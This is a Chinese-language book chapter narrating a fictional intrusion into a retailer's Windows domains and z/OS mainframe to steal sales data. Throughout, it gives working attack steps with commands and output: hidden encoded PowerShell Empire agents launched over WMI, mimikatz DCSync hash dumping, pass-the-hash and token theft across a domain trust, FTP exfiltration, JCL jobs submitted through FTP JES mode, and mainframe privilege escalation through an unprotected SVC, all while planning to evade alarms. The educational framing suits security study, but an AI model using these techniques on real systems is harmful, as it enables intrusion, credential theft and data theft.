# 滥用信任

"无辜者的信任是骗子最有用的工具。"  --斯蒂芬金(Stephen King)

## 漫游网络
让我们快速回顾一下当前的情况：
- 我们使用MS16-032漏洞利用代码在Citrix服务器上提升了PowerShell会话权限。
- 如果我们失去访问权限，我们有一扇通往Citrix服务器的神奇后门：一个WMI事件会执行从前置服务器获取的代码。
- 即使每个帐户的密码都重新设定了，我们仍可以使用黄金票据在 GBSHOP 上发出域管理员命令。
- 当然，我们还有PI 0，以及在商店的一台电脑上运行着的Empire代理。

我们牢牢掌握了GBSHOP领域。使用域管理帐户，我们可以返回到对丹尼尔帐户不可用的共享，并查看在那里可以找到什么：
```
PS > net view \\SV0078 /all
Shared resources at \\SV0078
Share name Type Used as Comment
---------------------------------------------------
ADMIN$ Disk Remote Admin
C$ Disk Default share
CORP$ Disk
FTP_SALES$ Disk
HR$ Disk
IPC$ IPC Remote IPC
IT_Support$ Disk
```

我们访问临时的FTP_SALES$ 共享，却发现它几乎是空的。有一个小脚本似乎可以将文件通过FTP推送到远程主机：
```
Import-Module PSFTP
$FTPServer = '10.30.30.210'
$FTPUsername = 'FTPService'
$FTPPassword = $( Read-Host "Input password, please" )

$FTPSecurePassword = ConvertTo-SecureString -String $FTPPassword
-asPlainText -Force
$FTPCredential = New-Object
System.Management.Automation.PSCredential($FTPUsername,
$FTPSecurePassword)
[…] 
Get-ChildItem -Path $local_out |
% {
$ftp_file = "$ftp_path/$($_.Name)" # determine item fullname
Add-FTPItem -Path $ftp_file -LocalPath $_.FullName -Session $session
Remove-item $ftp_file
}
```

密码每次都是手工输入的，所以我们甚至无法访问10.30.30.210机器上的FTP服务器。我们尝试通过RPC（135）或RDP（3389）连接到服务器，但没有成功。严格的网络过滤器禁止FTP连接以外的任何操作。

IP地址似乎落在GBSales域覆盖的网络中，这肯定是我们无法从GBShop域中的Citrix服务器访问它的原因。
```
c:\Users\Public>nslookup GBSALES.CORP
Address: 10.10.20.199
Name: GBSALES.CORP
Address: 10.30.30.88
```

> 提示：对Windows域的完全限定域名（FQDN）发出nslookup返回DC的IP地址

我们可以做出合理的假设，来自多个商店的销售文件将通过FTP自动发送到这个集中的位置。我们可以一直潜伏到下一次传输，并在文件被删除之前抓取它们，但我们会把这作为最后的手段。让我们继续我们的发现过程。

除了Citrix机器和一些文件服务器之外，GBShop域上似乎没有什么进展。似乎它主要是为其他内部组件提供一种中继或缓冲。这是隔离环境和保护关键资产的聪明方法。

正如我们前面看到的，例如，如果我们尝试从 Citrix 服务器访问 GBSales 域，我们无法获得响应。

但是，两个域（GBSHOP 和 GBSALES）之间存在信任关系，因此，至少几个关键组件之间允许一些连接。

如果我们查看Microsoft的文档，它会清楚地指出在两个域的域控制器之间必须打开以下端口( 作者提示参阅https://technet.microsoft.com/en-us/library/cc756944(v=ws.10).aspx )：
- 445用于文件传输
- 88用于Kerberos身份验证
- 135用于RPC通信
- 389用于LDAP通信
- RPC通信的几个动态端口

现在有意思了。这意味着，要想在GBSALES部门获得成功，我们必须通过GBSHOP域控制器。我不太喜欢在DC上执行攻击载荷，但这次我们真的没有选择…

使用Citrix服务器上PowerShell命令行上的WMI，我们在DC服务器上执行一个远程进程，该进程生成一个Empire代理：
```
#$cmd holds an Empire agent
PS > $cmd= "powershell.exe -NoP -sta -NonI -W Hidden -Enc WwBTA[…]"
PS > invoke-wmimethod -ComputerName SV0198 win32_process -name
create -argumentlist ($cmd)
```


我们尝试在GBSALES主域控制器上列出共享（端口445）：
```
(Empire: DCshop) > shell "net view 10.30.30.88"
(Empire: DCshop) > 
net view 10.30.30.88
Shared resources at 10.30.30.88
---------------------------------------------------------
NETLOGON Disk Logon server share
SYSVOL Disk Logon server share
The command completed successfully.
```

正如所料，我们现在可以“看到”一些GBSales资源。另外，由于两个域之间的信任关系，我们可以使用GBSHOP域用户查询GBSales机器。不过，我们最多只能拥有标准用户权限！因此，准备迎接一个新的特权升级情景！

## 销售域

### 相互了解
为了帮助我们想象在GBSALES域上跳转的方式，我们从了解域的基本布局开始。我们使用前面显示的侦察模块get_domain_controller列出所有GBSALES域控制器：
```
(Empire: DCshop) > usemodule
situational_awareness/network/powerview/get_domain_controller
(Empire: get_domain_controller) > set Domain GBSALES.CORP
(Empire: get_domain_controller) > execute
Job started: Debug32_rx9ml
Forest : GBSALES.CORP
OSVersion : Windows Server 2012 R2
Domain : GBSALES.CORP
IPAddress : 10.30.30.88
[…]
Forest : GBSALES.CORP
OSVersion : Windows Server 2012 R2
Domain : GBSALES.CORP
IPAddress : 10.30.30.89
[…]
```

与 GBSHOP 相比，域控制器还多，正如您所看到的，此域确实位于不同的林 （GBSALES.CORP）。如果不是这样，我们可以使用来自GBSHOP的krbtgt帐户！

让我们揪出域中注册的每个Windows主机，以了解此新目标的大小：
```
(Empire: DCshop) > usemodule
situational_awareness/network/powerview/get_computer
(Empire: get_computer) > set Domain GBSALES.CORP
(Empire: get_computer) > execute
Job started: Debug32_5u89t
SL0009.GBSALES.CORP
SL0010.GBSALES.CORP
SL0011.GBSALES.CORP
SL0012.GBSALES.CORP
[…]
SL0088.GBSALES.CORP
SL0089.GBSALES.CORP
SL0090.GBSALES.CORP
[…]
SL0210.GBSALES.CORP
Get-NetComputer completed!
```

与只有几台服务器的 GBSHOP 相比，GBSales 处于另一个级别。计算机对象的最终计数是 350！

您可能已经注意到在这些名称中的与众不同的，SL0210（10.30.30.210）FTP服务器是所有销售数据的集线器，我们从前面的脚本中了解到。

对这个服务器的一个快速端口扫描结果显示，我们可以直接从DC将它作为目标。无需在GBSALES域控制器上生成反向代理：
```
(Empire: DCshop) > usemodule situational_awareness/network/portscan
(Empire: portscan) > set Ports 135
(Empire: portscan) > set Hosts SL0210.GBSALES.CORP
(Empire: portscan) > execute
Job started: Debug32_hp38u
Hostname OpenPorts
-------- ---------
SL0210.GBSALES.CORP 135
```


完美！如果我们以某种方式获得 GBSALES 域的特权凭据，我们知道我们可以在这个宝贵的服务器上跳转！

让我们继续我们的侦察过程，并在GBSALES中列出域管理帐户：
```
(Empire: DCshop) > usemodule
situational_awareness/network/powerview/get_user
(Empire: get_user) > set Filter adminCount=1
(Empire: get_user) > set Domain GBSALES.CORP
(Empire: get_user) > execute
Job started: Debug32_qa90a
distinguishedname : CN=Administrator,CN=Users,DC=GBSALES,DC=CORP
name : Administrator
objectsid : S-1-5-21-2376009117-2296651833-4279148973-500
admincount : 1
distinguishedname : CN=joe_adm,CN=Users,DC=GBSALES,DC=CORP
name : joe_adm
objectsid : S-1-5-21-2376009117-2296651833-4279148973-1116
admincount : 1
distinguishedname : CN=phoebe_adm,CN=Users,DC=GBSALES,DC=CORP
name : phoebe_adm
objectsid : S-1-5-21-2376009117-2296651833-4279148973-1121
admincount : 1
distinguishedname : CN=sysback,CN=Users,DC=GBSALES,DC=CORP
name : Sysback
objectsid : S-1-5-21-2376009117-2296651833-4279148973-1117
admincount : 1
```

现在真有趣！你明白了吗？好的，这可能有点帮助。这些是GBSHOP上的域管理帐户：


两个域上似乎都存在同一个sysback帐户（很可能是备份帐户）！如果我们够幸运的话，也许，只是也许他们都有相同的密码…让我们试试！

### 利用信任
我们将转储GBShop域中sysback帐户的密码散列，然后使用它向GBSales shop进行身份验证。由于Windows执行NTLM身份验证的方式，我们不需要破解散列。

回顾下之前讨论过的几段内容，当服务器要求客户端进行身份验证时，后者会发送以下字符串：hash（H+random_number），其中H是密码的hash。

这意味着我们只需要知道密码的散列（称为NTLM散列）就可以形成有效的NTLM响应挑战，并说服服务器允许我们进入。这种攻击已经有20年的历史了，但它仍然被认为是Windows上最强大的伎俩之一。它被称为pass-the-hash攻击。

如何获取随机帐户的哈希值？我们再次使用DCSync！
```
(Empire: DCshop) > usemodule credentials/mimikatz/dcsync
(Empire: dcsync) > set user sysback
(Empire: dcsync) > set domain GBSHOP.CORP
(Empire: dcsync) > run
(Empire: credentials/mimikatz/dcsync) > 
Job started: Debug32_sd5v1
Hostname: SV0199.GBSHOP.CORP / S-1-5-21-2376009117-2296651833-
4279148973
 .#####. mimikatz 2.1 (x64) built on Mar 31 2016 
.## ^ ##. "A La Vie, A L'Amour"
## / \ ## /* * *
 ## \ / ## Benjamin DELPY `gentilkiwi`
 '## v ##' http://blog.gentilkiwi.com/mimikatz (oe.eo)
 '#####' with 18 modules * * */
mimikatz(powershell) # lsadump::dcsync /user:sysback
/domain:GBSHOP.CORP
[DC] 'GBSHOP.CORP' will be the domain
[DC] 'SV0199.GBSHOP.CORP' will be the DC server
[DC] 'sysback' will be the user account
** SAM ACCOUNT **
SAM Username : sysback
User Principal Name : sysback@GBSHOP.CORP
[…]
Credentials:
 Hash NTLM: 26bc129c0ea27a6e66cfaf3080fb7947
 ```

 现在我们有了sysback的密码散列，可以使用它在服务器上生成一个新进程。当这个进程向远程资源进行身份验证时，它将“传递”sysback的散列，从而有效地模拟sysback的标识，当然前提是域之间的密码确实相同。

 值得注意的是，成功生成具有指定哈希值的进程并不意味着密码是正确的。这是一个简单的内存注入技巧。真正的测试——真正的身份验证——将在我们访问远程资源时发生。
```
(Empire: DCshop) > usemodule credentials/mimikatz/pth
(Empire: dcsync) > set user sysback
(Empire: dcsync) > set domain GBSALES.CORP
(Empire: dcsync) > set ntlm 26bc129c0ea27a6e66cfaf3080fb7947
(Empire: dcsync) > run
```


如果我们在交互式图形会话中，我们会看到一个带有sysback帐户的实际新窗口弹出。但由于我们使用的是Empire的反向连接，所以窗口保持在背景中。

这个新的CMD.exe进程中包含了Sysback的定义——一个记忆中的token，它等于Web session cookie，我们可以在最差的网站上找到。这是一种结构参照每个过程后面的用户特权和身份。

为了获得sysback的安全令牌，我们只需从刚刚生成的新进程中“窃用”它：
```
(Empire: dcsync) > interact DCshop
(Empire: DCshop) > steal 3888
(Empire: DCshop) > 
Running As: GBSALES\rachel_adm
Use Credentials/tokens with RevToSelf option to revert token privileges
```

我们现在作为sysback在Empire代理上的帐户有效地连接起来。为了测试sysback在GBSales中的帐户是否确实与GBShop中的帐户共享相同的密码，我们只需在GBSales DC上测试一个远程操作（如列出受保护的C$共享），然后查看是否有效：



第二个域也拿下了！

### FTP服务之外

现在我们拥有了一个域管理帐户，我们只需使用与以前相同的技巧在属于GBSales的服务器上生成一个新的Empire代理。

选哪一个？

还记得从GBSHOP（10.30.30.210）接收销售数据的FTP服务器吗？我们最终可以从网络的角度（从GBShop DC）和系统的角度（我们是GBSALES的域管理员）跟踪和访问服务器。我们使用WMI在此服务器上生成新代理：
```
(Empire: DCshop) > shell wmic /node:SL0210.GBSALES.CORP process call
create "powershell.exe -NoP -sta -NonI -W Hidden -Enc WwBTAHkAcwB[…]"
```

然后与代理交互并直接转到Windows上FTP使用的默认文件夹：
```
(Empire: SalesFTP) > dir C:\inetpub\ftproot\
(Empire: SalesFTP) >
```

又是空！我们就是没法拿到这些文件。尽管如此，我们确信他们被送到这里，所以必须有一种任务，定期将他们运送到另一个地点。让我们列出此计算机上的所有计划任务：
```
(Empire: SalesFTP) > shell schtasks /Query /FO LIST /V
(Empire: SalesFTP) >
Job started: Debug32_ks12qv
Folder: \
HostName: SL0210
TaskName: \centralied_upload
Status: Ready
Author: GBSALES\administrator
Task To Run: "C:\Program Files\Scripts\centralized_upload.bat"
[…]
Comment: centralize all uploads to the big Iron
Scheduled Task State: Enabled
[…]
The command completed successfully.
```

找到了！
```
(Empire: SalesFTP) > shell type "C:\Program
Files\Scripts\centralized_upload.bat"
```


好吧，脚本末尾的delete命令解释了很多！我们得到了我们希望的最后一个IP地址：10.30.30.41。这台新机器显然也在GBSALES网段，所以我们不需要追逐新的目标。FTP凭据是FTPSRV/PASS01。

我们在这台新发现的机器上执行快速端口扫描，以评估哪个入口点最适合：
```
(Empire: SalesFTP) > usemodule situational_awareness/network/portscan
(Empire: portscan) > set Hosts 10.30.30.41
(Empire: portscan) > set TopPorts 1000
(Empire: portscan) > run
Job started: Debug32_70b72
Hostname OpenPorts 
-------- --------- 
10.30.30.41 21
10.30.30.41 22
10.30.30.41 80
10.30.30.41 111
 […]
```

SSH（22）和portmap（111）代替了SMB和RPC端口，这不是Windows机器……当然是某种Linux风格的。除了FTP服务，我们别无选择！

由于SL0210服务器上没有交互会话，因此我们上载一个连接到此ftp服务器（10.30.30.41）的简单脚本（/root/simple_ftp.txt），然后执行“dir”命令以列出当前目录中的文件(在将在Unix上写入的文件发送到Windows平台之前，请确保使用unix2dos命令在换行（0x0A）之前添加回车（0x0D）。)：
```
Open 10.30.30.41
FTPSRV
PASS1
dir
quit
```

```
(Empire: SalesFTP) > upload /root/simple_ftp.txt C:\Users\sysback\AppData\
Local\simple_ftp.txt
(Empire: SalesFTP) > shell cd C:\Users\sysback\AppData\Local\
(Empire: SalesFTP) > shell ftp -s:simple_ftp.txt > result.txt
(Empire: SalesFTP) > shell type result.txt
```


终于，文件…很多文件！不过，它们看起来确实很奇怪！Linux服务器上的文件没有此类名称。那不是Linux机器；那是大型机好吧！

大型机是一种超级计算机，有几百个处理器，内存有时会一直扩展到10TB。如果您仔细查看FTP头，它确实确认我们是V1R10版本。这个版本号对应于z/OS操作系统，超过75%的大型机上都有这个版本号。

在某种意义上，我们是在大型机上还是在Unix上并不重要，因为常规的FTP命令似乎工作得很好。

不过，为了清楚起见，请记住，每个z/OS都有一个Unix“分区”，用于处理TCP/IP通信、FTP服务、Web套接字等。因此，即使我们几乎不了解z/OS，我们也可以通过我们觉得熟悉的Unix分区来“攻击”它。

我们可以使用mget命令将销售文件转储回FTP服务器。由于此命令在每次传输前都要求确认，因此我们添加了一个模拟“回车”键的提示命令：
```
open 192.168.1.200
FTPSRV
PASS01
ascii
mget SALES.*
prompt
quit
```

```
(Empire: SalesFTP) > shell ftp -s:mget_ftp.txt
(Empire: SalesFTP) > shell dir
```



我们将妥善提取这些数据，以后不会发出任何警报。首先让我们看看我们得到了什么：


我们拿到了今天的德国的每家商店的销售数据！

如果我们想监控未来的销售，我们可以很容易地每天回来获取新的数据，但是过去的销售情况呢？信用卡数据？当然，肯定还有其他文件夹或过去几年的档案，我们可以在某些地方访问到。

当前FTP服务中没有其他文件夹，因此我们必须以某种方式逃离此受限制的环境并访问更敏感的文件夹。要做到这一点，我们需要深入研究z/OS的内部结构……振作起来！

前一阵子在Black Hat US上进行了一次有趣的演讲(参阅https://media.blackhat.com/us-13/US-13-Young-Mainframes-The-Past-Will-Come-Back-to-Haunt-You-WP.pdf)，强调了z/OS上FTP的一个有趣特性：命令执行！没错，我们可以利用这个简单的读/写服务向大型机提交作业（程序）。

不幸的是，由于基本的和有限的shell环境，我们不能依赖可用的脚本和工具（MainTP和metaploit脚本）。我们需要弄脏我们的手，并编写一些大型机程序！
> 提示：<br>
> MainTP:参阅https://github.com/mainframed/MainTP <br>
> Metasploit脚本：参阅https://www.bigendiansmalls.com/jcl-scripting-for-metasploit-framework/ <br>

工作相当于一项任务。可以肯定地说，在大型机上运行的所有内容要么是作业，要么是由作业启动的。作业控制语言是用于编写作业的“脚本”语言。

有时被称为z/OS历史上最大的错误(参阅http://archive.computerhistory.org/resources/access/text/2012/11/102658255-05-01-acc.pdf)，这种语言是死板的，几乎没有创造力的空间。好处是你可以反复使用同一个“结构”。我们将从一个基本程序开始，该程序将转储我们在z/OS上的当前权限：
```
//FTPSRV1 JOB
//STEP01 EXEC PGM=IKJEFT01
//SYSTSIN DD *
 LISTUSER
/*
//SYSIN DD DUMMY
//SYSTSPRT DD SYSOUT=*
```

每个JCL指令都以双斜杠字符开头。第一行表示作业的名称FTPSRV1，后跟强制的“JOB”关键字。第二行表示我们将执行IKJEFT01程序，这是z/OS上的TSO（类似shell）程序。

这个程序将从SYSIN卡获取输入，我们使用“LISTUSER”命令输入。最后，程序会将命令的输出打印到SYSTSPRT卡指定的控制台日志中。

但是，由于我们无法通过FTP访问此控制台日志，因此我们指示JCL将命令的结果输出到一个新文件（FTPSRV.OUTPUT）中，以便以后下载：
```
//FTPSRV1 JOB
//STEP01 EXEC PGM=IKJEFT01
//SYSTSIN DD *
 LISTUSER
/*
//SYSIN DD DUMMY
//SYSTSPRT DD DSN=FTPSRV.OUTPUT,
// DISP=(NEW,CATLG),
// SPACE=(TRK,1)
```

现在我们已经设置好了，我们可以将这个JCL程序传输到销售服务器（SL0210）。
```
(Empire: SalesFTP) > upload /root/FTPSRV.JOB
c:\users\sysback\appdata\local\
```

它已经准备好送到大型机执行。正常的FTP会话以顺序（SEQ）模式出现，这意味着定期在磁盘之间传输文件。

通过将此模式更改为Job Entry Scheduler（JES），我们可以将文件直接发送到内部读取器，这是一个z/OS组件，它执行接收到的任何内容。

FTP中的命令```quote site file=jes```将使其切换到JES模式。我们以后发送的任何东西都将被视为一项工作，并因此被执行。
```
open 192.168.1.200
FTPSRV
PASS01
quote site file=jes
put C:\Users\sysback\AppData\Local\FTPSRV.JOB
quit
```

```
(Empire: SalesFTP) > upload /root/ftp_jes.txt c:\users\sysback\appdata\local\
(Empire: SalesFTP) > shell ftp -i -s:ftp_jes.txt > result.txt
(Empire: SalesFTP) > shell type result.txt
```


记住作业id–JOB04721–因为稍后我们需要从控制台日志中删除作业。我们给它几秒钟时间进行处理，然后用一个简单的get命令检索输出文件：
```
open 192.168.1.200
FTPSRV
PASS01
get 'FTPSRV.OUTPUT' FTPSRV.OUTPUT.TXT
quit
```


用户FTPSRV在大型机上没有任何特权（attributes=none）。

其实并不奇怪，但整个操作确实证实了一件重要的事情：我们可以执行代码并检索其输出！然而，如何定位重要数据是另一个挑战。

大型机可以承载几乎无限量的数据。再加上它们通常运行几十年，这确实让我们很难找到我们要找的文件夹，犹如大海捞针。

考虑到我们所讨论的只是重要的、几乎是关键的数据，因此它很有可能受到严格保护。这意味着必须有一些规则规定：“只有这些帐户才能访问读取/更改此数据”。如果我们集中精力寻找这样的规则，我们就能找到数据。规则比数据少得多，所以这是一个很好的权衡。

z/OS上的访问规则通常由一个安全组件处理：RACF、TOPSecret或ACF2。RACF占据了近70%的市场份额。LISTUSER命令是RACF命令。它成功的事实证明我们是在一个RACF系统上，所以这已经解决了。

RACF规则非常标准，而且相对容易理解（RACF命令示例参阅http://ruifeio.com/2012/02/25/useful-racf-commands-for-administrators/）。我们有三个主要的访问级别：READ、ALTER和UPDATE。ALTER特权允许更改内容和保护资源的规则，而UPDATE只允许更改内容。

要在RACF数据库中搜索包含销售数据集的已定义规则，只需发出以下命令：
```
SEARCH FILTER(*.SALES.**)
```

是一个警告！鉴于我们有限的权限，此命令将失败（或不返回任何内容），除非：
- FTPSRV帐户拥有规则或规则所涵盖的数据，这是极不可能的。
- FTPSRV帐户有特殊的（例如root）属性，我们知道它没有。

考虑到第一个条件是最不可能的，那么在大型机上提升权限如何？据报道，这是一台无法攻克的机器，那么这是否有意义呢？

许多人会惊讶地发现，截至2017年，有许多选项可用于大型机上的提权。

让我们逐一探究：
- 嗅探流量，直到我们找到一个高特权帐户。大多数与大型机的网络通信都是明文的，所以我们只需要执行ARP投毒来获取证书。可能需要一段时间，但有时这是唯一的选择。
- 在JCL代码和系统脚本中搜索密码。可能会证明是非常有益的。然而，搜索千兆字节文件的行为可能会导致一些CPU峰值，这会引起硬件管理器的注意。大型机客户机是按其CPU消耗量计费的，因此您可以准确地猜测它们非常密切地监视它。
- 寻找“神奇”的 Supervisor Calls (SVC)。这些是内存中的特殊函数，由管理员（或由软件安装）编码以授予它们临时的高权限。这一切都很好，只要他们得到适当的保护！但事实并非如此。
- 寻找保护不力的Authorized Program Facilities(APF)。这些是保存内核模块的特殊文件夹。如果我们可以在这些目录中插入一个程序，我们将获得最高的权限。

谢天谢地，我们不需要从头开始编写程序来执行这些检查。

其他人已经为我们承受了重担，所以我们只需在他们的波浪上冲浪。对于中间人攻击，查看SETn3270(参阅https://github.com/zedsec390/defcon23/tree/master/Network%20Tools/SETn3270)。

但是，我们不能在Windows服务器上启动它，因为它需要OpenSSL和其他库。我们可以将Python脚本编译成一个EXE文件并处理好依赖关系，但我们将把它作为最后一个选项。

同时，我们从ayoul3的Github存储库下载ELV.SVC程序(下载链接https://github.com/ayoul3/Privesc/blob/master/ELV.SVC)。它可以寻找SVC函数，这种类型授予无限权限并转储其代码。然后我们可以检查有哪些保护措施（如果有的话）。

有时SVC可能需要在授予授权之前将某个字符串或数字放在注册表中。一旦我们知道了这一点，我们就可以指示ELV.SVC在哪个注册表中定位哪些数据，然后让它做它的工作：创建一个调用SVC的程序，接收完全权限，然后将我们的帐户提升到特殊状态。

需要注意的是，ELV.SVC不是一个JCL文件，而是一个REXX脚本，相当于z/OS上的python。首先，我们需要将其传输到大型机，然后提交执行此脚本的作业：
```
(Empire: SalesFTP) > upload /root/ELV.SVC c:\users\sysback\appdata\local\
(Empire: SalesFTP) > shell ftp -i -s:ftp_svc.txt > result.txt
```
```
open 192.168.1.200
FTPSRV
PASS01
put C:\Users\sysback\AppData\Local\ELV.SVC
quit
```

执行此脚本的JCL卡与以前相同。传递给ELV.SVC的“LIST”选项在内存中搜索SVC：
```
//FTPSRV1 JOB
//STEP01 EXEC PGM=IKJEFT01
//SYSTSIN DD *
ex 'FTPSRV.ELV.SVC' 'LIST'
/*
//SYSIN DD DUMMY
//SYSTSPRT DD DSN=FTPSRV.OUTPUT2,
// DISP=(NEW,CATLG),
// SPACE=(TRK,1)
```

我们现在准备将此作业推送到JES组件：
```
open 192.168.1.200
FTPSRV
PASS01
quote site file=jes
put C:\Users\sysback\AppData\Local\FTPSRV.JOB2
quote site file=seq
get 'FTPSRV.OUTPUT2’ FTPSRV.OUTPUT2.TXT
quit
```


似乎有一个SVC -第226号！我不会详细说明程序集代码，因为它远远超出了本书的范围(请参阅一个学习z/OS汇编的好资源http://www.billqualls.com/assembler/)，但相信我，如果我说这个SVC没有执行安全检查。

任何一个能够正确调用SVC 226的人都可以访问z/OS所提供的所有财富……相当可怕，不是吗？

我们再次调整JCL卡以指示ELV.SVC使用编号226的SVC。我们还需要创建一种库“FTPSRV.PDS()”，ELV.SVC可以编译其负载。
```
//FTPSRV1 JOB
//PDS DD DSN=FTPSRV.PDS(NEWMEM),DISP=(NEW,CATLG), 
// SPACE=(TRK,(1,1,24)),RECFM=U </b> 
//
//STEP01 EXEC PGM=IKJEFT01
//SYSTSIN DD *
 ex 'FTPSRV.ELV.SVC' 'DSN=FTPSRV.PDS SVC=226'
/*
//SYSIN DD DUMMY
//SYSTSPRT DD DSN=FTPSRV.OUTPUT3,
// DISP=(NEW,CATLG),
// SPACE=(TRK,1)
```

我们通过受信任的FTP服务再次执行作业，然后获取输出文件：


太棒了！一切顺利。我们使用与之前相同的LISTUSER命令检查FTPSRV的权限：


终于拿到SPECIAL权限了！既然我们对RACF拥有适当的权限，我们就可以发布垂涎已久的搜索命令：
```
//FTPSRV1 JOB
//STEP01 EXEC PGM=IKJEFT01
//SYSTSIN DD *
 SEARCH FILTER(*.SALES.**)
/*
//SYSIN DD DUMMY
//SYSTSPRT DD DSN=FTPSRV.OUTPUT5,
// DISP=(NEW,CATLG),
// SPACE=(TRK,1)
```

